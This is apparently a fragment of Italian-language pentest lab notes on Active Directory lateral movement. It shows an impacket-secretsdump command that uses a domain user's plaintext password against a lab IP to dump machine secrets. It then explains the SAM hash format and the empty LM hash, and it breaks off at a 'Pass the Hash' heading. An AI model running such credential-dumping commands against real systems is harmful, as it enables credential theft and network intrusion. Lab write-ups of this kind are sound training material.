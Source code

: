 ### **Lateral Movement**
Prima di saltare da una macchina all'altra è essenziale ottenere tutti i "Secrets" della macchina pwnata.
```bash
impacket-secretsdump NORTH/jeor.mormont:'_L0ngCl@w_'@192.168.56.22
```
![[Pasted image 20230906162707.png]]
Per quanto riguarda il SAM i risultato sono mostrati cosi:
<Username>:<User ID>:<LM hash>:<NT hash>:<Comment>:<Home Dir>:
Questo valore sulle LM hash significa vuoto "aad3b435b51404eeaad3b435b51404ee"

*Pass the Hash*